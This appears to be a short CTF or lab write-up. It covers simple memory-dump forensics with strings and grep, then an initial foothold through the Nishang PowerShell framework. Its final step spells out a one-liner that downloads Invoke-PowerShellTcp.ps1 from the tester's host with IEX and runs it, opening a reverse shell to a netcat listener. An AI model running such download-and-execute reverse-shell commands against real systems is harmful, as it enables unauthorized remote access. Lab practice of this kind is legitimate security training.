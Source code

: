 
COPY files to SMB Share
`\\10.10.16.13\a`

![[Pasted image 20240718133001.png]]

![[Pasted image 20240718134149.png]]

**USE STRINGS**
Simple forensics

```
strings nc.DMP | grep -inE '([0-9]{1,3}[\.]){3}[0-9]{1,3}'
```
![[Pasted image 20240718134445.png]]

This can be done on each memory dump!
- Search for commands, IPs, domains etc to corroborate evidence and attack narrative!

***
***
**NISHANG**

For the sake of completeness and using Powershell, I will use the Nishang Framework to gain an initial foothold as an alternative to using standard CMD Prompt

```
locate nishang | grep -i tcp
```
![[Pasted image 20240718135642.png]]

Add PS command to end of `Invoke-PowershellTcp.ps1`
![[Pasted image 20240718140014.png]]

**SERVE and RECIEVE**
Serve Nishang Script using python 
Start `NC` in another terminal

![[Pasted image 20240718140341.png]]

**BROWSER**
Invoke Expressiom
```
echo IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.13:8080/Invoke-PowerShellTcp.ps1') | powershell -noprofile -
```
![[Pasted image 20240718140855.png]]
![[Pasted image 20240718140835.png]]




